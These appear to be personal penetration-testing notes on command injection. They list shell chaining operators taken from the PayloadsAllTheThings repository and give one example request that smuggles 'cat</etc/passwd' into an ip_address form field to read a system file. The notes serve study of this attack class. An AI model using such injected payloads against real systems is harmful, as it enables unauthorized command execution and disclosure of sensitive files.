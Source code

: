 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

#### Example 1
![[Pasted image 20220923092643.png]]

![[Pasted image 20220923092704.png]]

Taking logic from payload all the things, we should try these:

>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail

![[Pasted image 20220923093359.png]]

```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```

![[Pasted image 20220923094148.png]]
